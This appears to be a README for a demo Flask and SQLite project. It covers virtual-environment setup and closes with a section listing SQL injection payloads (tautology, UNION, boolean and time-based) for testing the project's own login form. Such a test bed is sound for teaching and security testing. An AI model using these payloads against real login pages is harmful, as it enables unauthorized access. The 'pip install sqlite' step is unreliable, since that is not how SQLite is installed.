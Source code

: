 # Demo Project

This README provides step-by-step instructions for setting up a Python virtual environment across different operating systems. The guide also includes additional tips for working with Flask and SQLite.

## Table of Contents

1. [Setting Up a Virtual Environment](#setting-up-a-virtual-environment)
2. [Activating the Virtual Environment](#activating-the-virtual-environment)
3. [Working with Flask](#working-with-flask)
4. [Working with SQLite](#working-with-sqlite)

## Setting Up a Virtual Environment

### Windows

1. **Open Command Prompt**: Press `Windows + R`, type `cmd`, and hit Enter.
2. **Navigate to Project Directory**: Use the `cd` command to navigate to your project folder.
3. **Create Virtual Environment**:
   ```cmd
   python -m venv env
   ```

### macOS and Linux

1. **Open Terminal**: Open it from the Applications folder or search for it using Spotlight (`Cmd + Space`).
2. **Navigate to Project Directory**: Use the `cd` command to go to your project folder.
3. **Create Virtual Environment**:
   ```bash
   python3 -m venv env
   ```

## Activating the Virtual Environment

### Windows

1. **Activate Virtual Environment**:
   ```cmd
   .\env\Scripts\Activate
   ```

### macOS and Linux

1. **Activate Virtual Environment**:
   ```bash
   source env/bin/activate
   ```

## Working with Flask

1. **Install Flask**:
   ```bash
   pip install Flask
   ```
2. **Run Flask Application**:
   ```bash
   flask run
   ```

## Working with SQLite

1. **Install SQLite**:
   ```bash
   pip install sqlite
   ```
2. **Initialize Database**:
   ```bash
   python init_db.py
   ```

## Testing SQL Injections

### Classic SQL Injection

1. **Username**:

   ```bash
   ' OR '1'='1
   ```

2. **Password**:
   ```bash
   ' OR '1'='1
   ```

### Union-based SQL Injection

SQLite doesn't allow multiple statements in a single SQL query, which limits the types of UNION queries you can perform. However, you can still test basic UNION-based SQL injections.

1. **Username**:

   ```bash
   ' UNION SELECT NULL, 'a', 'b' --
   ```

2. **Password**:
   ```bash
   (Leave it blank)
   ```

### Boolean-based SQL Injection

1. **Username**:

   ```bash
   ' OR '1'='1
   ```

2. **Password**:
   ```bash
   ' OR '1'='2
   ```

### Time-based Blind SQL Injection

SQLite does not have built-in sleep functions, but for databases that do (like MySQL), you could use payloads like:

1. **Username**:

   ```bash
   ' OR IF('1'='1', sleep(10), 0) --
   ```

2. **Password**:
   ```bash
   (Leave it blank)
   ```
